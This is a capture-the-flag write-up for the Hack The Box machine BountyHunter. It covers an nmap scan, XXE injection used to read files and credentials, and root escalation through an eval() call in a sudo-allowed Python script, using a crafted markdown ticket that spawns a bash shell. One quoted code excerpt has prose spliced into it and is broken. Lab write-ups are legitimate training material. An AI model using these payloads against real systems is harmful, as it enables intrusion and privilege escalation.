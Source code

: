 ```yaml
---
layout: post
title: Hack The Box BountyHunter - Writeup
lang: en
ref: BountyHunter
---
```


BountyHunter is an easy difficulty Hack The Box machine, exploited using XXE injection (to LFI), and using a markdown file to get root privileges.

## Nmap Scan

```bash
nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn <IP> -oG allPorts
```

![](/assets/writeups/htb-bountyhunter/nmap_port_scan.png)

## Enumeration

### Port 80

Let's take a look to the page. We have a form to create a new CVE.
We can intercept the request with burpsuite, and we'll intercept the data parameter in base64. Let's decode it.

![](/assets/writeups/htb-bountyhunter/data_decoded.png)

mmm sounds good! 😎

## XXE to LFI

Using wfuzz we found a php file called `db.php`.
So, let's send this request to the repeater in burpsuite, and using this payload we'll get the content of this file in base64.
Remember to encode the XML to base64.

![](/assets/writeups/htb-bountyhunter/db.php_xxe_lfi.png)

At this point we should get a base64 string, let's decode it.

![](/assets/writeups/htb-bountyhunter/db.php_base64_decode.png)

Cool! :)

We found some credentials. SSH? Yep, but user test won't work.
Taking a look to the `/etc/passwd` using the XXE vulnerability, there is a development user. Let's try this user...

![](/assets/writeups/htb-bountyhunter/ssh_development_user.png)

Amaaaazing...! We found the user flag! 😎

## Privilege escalation - root

First, we check what sudo capabilities our user development got using `sudo -l`.

We find the following.

```bash
(root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

WTF is this? Let's take a look...

`cat /opt/skytrain_inc/ticketValidator.py`

```python
def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

The code asks for a file name, then it makes sure that the filename is ended with .md extension.
If true, then the code opens the file and search for the next conditions.

```python
for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1: if line number 1 Exist and not startwith "## Ticket to " , Quit else Continue
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

    if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
```

Okaay! Let's create a `test.md` like this:

```markdown
# Skytrain Inc
## Ticket to
__Ticket Code:__
**102+ 10 == 112 and __import__('os').system('/bin/bash') == False
```

Run it, and you will get the root shell. Cat to the flag, and we are done!

![](/assets/writeups/htb-bountyhunter/pwned.png)

